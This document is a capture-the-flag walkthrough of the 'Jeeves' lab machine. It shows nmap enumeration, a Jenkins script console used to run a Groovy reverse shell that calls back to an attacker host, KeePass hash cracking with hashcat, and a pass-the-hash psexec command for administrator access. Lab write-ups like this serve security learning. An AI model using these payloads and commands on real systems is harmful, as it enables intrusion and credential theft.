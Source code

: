 ## About

Jeeves is a relatively straightforward challenge but focuses on some interesting techniques, providing a great learning experience. The use of alternate data streams is uncommon, and some users may have difficulty locating the correct escalation path.

## Initial Enumeration

Run the following `nmap` scan to enumerate open ports and services:

`nmap -A -T4 -p- 10.129.228.112`
### Nmap Output:

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
```
```
Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-03-16T22:07:11
|_  start_date: 2025-03-16T21:57:47

```
### Web Port Enumeration

I decided to start directory enumeration on both web ports (TCP:80 and TCP:50000). Upon discovering a hit on `http://10.129.228.112:50000/askjeeves/`, I navigated to the page, which revealed a Jenkins Web interface.

![Jenkins Webpage](Images/Pasted%20image%2020250316131434.png)

Upon further exploration, I found the `Administrator` directory.

![Administrator Directory](Images/Pasted%20image%2020250316131727.png)

The page also appeared to allow for script execution.

![Script Console](Images/Pasted%20image%2020250316131833.png)

A quick Google search led me to a [Groovy Reverse Shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

## Exploitation

### Reverse Shell

Utilizing the Groovy Reverse Shell, I generated a reverse shell to the target machine.

```php
String host="10.10.14.13";
int port=9090;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

After setting up a listener and executing the script, I was able to obtain a shell.

![Reverse Shell](Images/Pasted%20image%2020250316132122.png)

I then grabbed the user flag before moving on to the next steps.

![User Flag](Images/Pasted%20image%2020250316132336.png)

## Post Exploitation

### Enumeration

#### Exploit Suggester

The following vulnerabilities were suggested by the exploit suggester tool:

```
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[E] MS16-129: Cumulative Security Update for Microsoft Edge (3199057) - Critical
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[E] MS16-056: Security Update for Windows Journal (3156761) - Critical
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical

```

#### Privilege Enumeration

During enumeration, I found that the user account had "Impersonate Privilege."

![Privilege Enumeration](Images/Pasted%20image%2020250316132818.png)

#### Directory Enumeration

While exploring the user's documents folder, I discovered a KeePass database file (`CEH.kdbx`), which was locked with a passphrase.

![KeePass Database](Images/Pasted%20image%2020250316134343.png)

To exfiltrate this file, I created a workspace within Jenkins and copied the `CEH.kdbx` file to the workspace, making it accessible via the web server.

![Jenkins Workspace](Images/Pasted%20image%2020250316135636.png)

### Privilege Escalation

#### Cracking the KeePass Database

I used the [KeePass2john](https://github.com/ivanmrsulja/keepass2john) tool to extract the hash from the KeePass database file.

![Keepass2john](Images/Pasted%20image%2020250316140223.png)

I then attempted to crack the hash using `hashcat`:

`sudo hashcat -m 13400 keepass.txt /usr/share/wordlists/rockyou.txt`
![](Images/Pasted%20image%2020250316140600.png)
After successfully cracking the hash, I obtained the passphrase `moonshine1`.


Within the Keepass Database there were numerous username:password combinations
![](Images/Pasted%20image%2020250316140636.png)
Utilizing the passwords I will generate a password list to attempt authentication.
![](Images/Pasted%20image%2020250316140829.png)
![](Images/Pasted%20image%2020250316140948.png)
None of the passwords I was able to extract were able to generate a successful authentication.

One of the files appears to be a hash rather than a password so maybe I will attempt passing that to the host.
![](Images/Pasted%20image%2020250316141115.png)
That gives us a successful authentication so now we can try and establish a shell using psexec.
`psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.129.228.112 cmd.exe`
![](Images/Pasted%20image%2020250316141234.png)
Grab the administrator flag.

![](Images/Pasted%20image%2020250316141820.png)

## Conclusion

This walkthrough demonstrated several key exploitation techniques, including directory enumeration, exploiting Jenkins, and cracking a KeePass database to escalate privileges and finally gain access to the Administrator account.